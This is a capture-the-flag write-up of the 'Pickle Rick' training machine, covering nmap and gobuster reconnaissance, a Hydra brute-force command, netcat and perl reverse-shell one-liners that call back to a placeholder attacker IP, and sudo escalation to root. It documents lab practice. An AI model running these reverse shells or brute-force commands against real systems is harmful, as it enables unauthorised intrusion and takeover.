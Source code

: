```yaml
---
title: "Pickle Rick: A Rick and Morty CTF"
published: true
---
```


In this CTF, we are given a machine and have to attempt to find three ingredients.

Firstly, let's do some recon:

## >Recon

### Nmap scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:8c:c4:2a:d5:e7:f9:c4:e9:14:49:58:ea:16:c9:09 (RSA)
|   256 6f:3e:ce:5c:92:ca:3e:4b:dd:dd:47:ef:41:19:2a:c7 (ECDSA)
|_  256 e8:8a:7e:fa:59:85:4a:06:a7:7d:47:c1:95:b0:80:65 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
```

Seems like two ports are open; a webserver running on port 80 and SSH on port 22.
Let's take a look at the webpage.

![](../assets/rick1.png)

Looking at the source of the main webpage, we find:

```js
Note to self, remember username!

Username: R1ckRul3s
```

### GoBuster:

Let's look for hidden directories on the website.

A search without extensions will yield:
```shell
/assets (Status: 301)
/server-status (Status: 403)
```
However, using the extensions .html, .php and .txt yields:
```shell
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

login.php -->
![](../assets/rick2.png)

Using BurpSuite, we get three good pieces of information from the login form:
1. The form is sent as a POST.
2. We can see the way the user and password are sent.
3. We can see an error message.

```shell
1. POST /login.php HTTP/1.1
2. username=TEST_USER&password=TEST_PASSWORD&sub=Login
3. Invalid username or password. 
```

Now we have a username and a login form. Let's hail Hydra.

## >Dictionary Attack

Using the information gathered before, let's try to recover Rick's password using Hydra:

```shell
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.137.78 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```

Without much success, I started to look for other resources and found that robots.txt contained the following:
```js
Wubbalubbadubdub
```
A password perhaps...?

And... we're in.

## >Reverse Shell

![](../assets/rick3.png)

We are greeted with a Commands Panel where we can execute Linux commands so let's get a reverse shell first.

The command
```shell
nc -e /bin/sh <IP> 5555
```
fails, so netcat is most likely banned.

*BUT* perl is allowed:
```shell
perl -e 'use Socket;$i="<IP>";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Just in the directory we land, we find the first ingredient and a clue:
```
clue.txt:
Look around the file system for the other ingredient.
```
Let's see if we're lucky with the find command and any file that has "ngred" in its name exists:
```shell
$ find / -name "*ngred*" 2>>/dev/null
/var/www/html/Sup3rS3cretPickl3Ingred.txt
/home/rick/second ingredients
```

And we got it.

Having no clue where to find the last ingredient, I thought of privilege escalation and tested what I could do as the user I was given --> www-data:

```shell
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-137-78.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-137-78.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We hit the lottery. We can run any command with sudo.
```shell
$ sudo su
whoami
root
```
We can find the last flag in the /root directory. 

## Another day, another root!
